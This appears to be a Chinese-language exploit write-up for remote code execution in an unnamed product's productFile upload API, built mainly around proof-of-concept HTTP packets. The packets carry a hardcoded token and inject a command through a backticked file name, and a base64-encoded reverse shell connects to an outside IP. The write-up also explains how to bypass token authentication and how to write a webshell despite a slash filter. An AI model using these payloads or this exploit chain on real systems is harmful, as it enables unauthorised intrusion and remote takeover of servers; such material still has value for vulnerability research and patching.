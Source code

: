漏洞细节
----

通过情报直接获取到一点点细节，那就直接开始看过程

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062526-c9953cc5-51a6-4ca4-b22d-2f45f1d53cc4.jpeg#alt=)

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047061639-28ef8d38-fae2-448d-9394-e1f911974ee8.jpeg#alt=)

直接可以上传webshell，但是这里有一个Token鉴权

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062602-aa345b2b-6189-4571-b610-5deb20b521eb.jpeg#alt=)

我们需要看这个Token的生成算法

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062474-93a302eb-5be5-41eb-91a2-289c56cd5218.jpeg#alt=)

对应的是so文件，需要我们ida逆向分析

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047061173-35132f64-732a-4683-a6d4-c5639c50a1a9.jpeg#alt=)

直接看sub\_35690函数即可，

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062678-bd7211c7-40ae-4ebf-a1c1-a2cfc5a58c47.jpeg#alt=)

这里主要看v8大于等于0的函数即可，这里我就懒得看了

复现
--

数据包

POST /svm/api/v1/productFile?type=product&amp;ip=127.0.0.1&amp;agentNo=1 HTTP/1.1  
Host:  
Token: SElLIElnVTBzNVd6eWlibVB4M046dUE0SlBBbGJTWGNMUnk5aWg4dkJXL2RjeEdqKys4aTd0cHBMM09INytVZz0=  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Content-Length: 566  
Content-Type: multipart/form-data; boundary=------------------------LOHhVTVvcAweFijvGOVJEnTJWjEQDyVdzQtdtDcx  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36  
​  
\--------------------------LOHhVTVvcAweFijvGOVJEnTJWjEQDyVdzQtdtDcx  
Content-Disposition: form-data; name="file";filename="z.zip"  
{{file(/Users/zhizhuo/Desktop/tools/目录穿越zip生成器/z.zip)}}  
\--------------------------LOHhVTVvcAweFijvGOVJEnTJWjEQDyVdzQtdtDcx--

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062747-6e220a37-5189-494b-a9e7-de160b503ce9.jpeg#alt=)

没打成功，回头在细梭一边代码，发现最终RCE的地方并不是文件上传，而是文件名字，先放一段要用的payload

```bash
"`ping xxx.dnslog.cn`.zip"  
# 反弹shell  
"echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzkwOTkgMD4mMQ== | base64 -d"
```

文件名字不能有/这tm直接就不能写webshell，看起来只能无回显利用

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047061128-2113ff74-9474-45fe-8630-fffd6f5f11db.jpeg#alt=)

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047061115-dba5f49f-1cf2-4063-805d-dc68602e0a14.jpeg#alt=)

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047061636-c45d2a4a-71f0-4d79-b8a3-3e8e3fb97e20.jpeg#alt=)

最后构造的poc数据包

```php
POST /svm/api/v1/productFile?type=product&amp;ip=127.0.0.1&amp;agentNo=1 HTTP/1.1  
Host:   
Token: SElLIElnVTBzNVd6eWlibVB4M046dUE0SlBBbGJTWGNMUnk5aWg4dkJXL2RjeEdqKys4aTd0cHBMM09INytVZz0=  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: multipart/form-data;boundary =---------------------------142851345723692939351758052805  
Content-Length: 346  

-----------------------------142851345723692939351758052805  
Content-Disposition: form-data; name="file"; filename="`ping xxx.dnslog.cn`.zip"  
Content-Type: application/zip  

123  
-----------------------------142851345723692939351758052805--
```

Token生成
-------

在@Y4tacker 的指导下完成了整个token获取后台变前台(二进制的算法被Y5割了2个月没给我)  
![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047061658-4d7e6c47-8c07-48f2-9c60-618756fc5fad.jpeg#alt=)

对于除了/static/外的路径都会经过验证Token

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062592-fa384e41-61e5-498d-8131-2faf20852aea.jpeg#alt=)

如果传入的Token没有通过验证的话，那么就会生成一个新的Token返回，下面找到访问控制器就可以了

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062776-e2c6d048-b8f3-4e44-94f7-df6314310948.jpeg#alt=)

构造请求获取Token信息

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29805118/1701047062581-cd4747e5-d62d-4dd8-9662-55db29f4b0b3.jpeg#alt=)

Token到手，在配合前面的上传数据包就可以实现远程命令执行

EXP
---

前面有说到有/拦截不能写webshell，但是实际上是可以，在上面给到的payload中有一个反弹shell的操作，利用的正是linux的特性，所以直接通过base64的方式加上重定向追加写入就是可以写入webshell的
